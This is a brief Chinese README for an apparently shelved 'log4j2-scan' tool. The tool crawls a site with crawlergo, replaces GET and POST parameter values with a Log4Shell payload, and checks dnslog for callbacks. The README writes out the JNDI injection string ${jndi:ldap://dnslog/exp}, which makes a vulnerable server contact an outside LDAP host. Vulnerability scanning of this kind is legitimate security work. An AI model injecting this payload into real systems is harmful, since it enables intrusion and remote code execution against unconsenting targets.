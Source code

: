 # log4j2-scan
脚本做了如下工作
1. 自动获取dnslog值
2. 使用crawlergo爬虫爬取链接，然后替换get请求中所有=号后的值和post请求data中的=后值为payload.m默认构造是${jndi:ldap://dnslog/exp}
3. 将上述请求参数重新发送
4. 自动检测dnslog是否存在结果



脚本在自定义的靶场环境里可以跑出log4j2所在的链接并成功构造参数触发。但是crawlergo在docker容器里可能因为是浏览器原因工作不正常，时而能跑全链接时而不行，所以这个项目暂时搁浅了




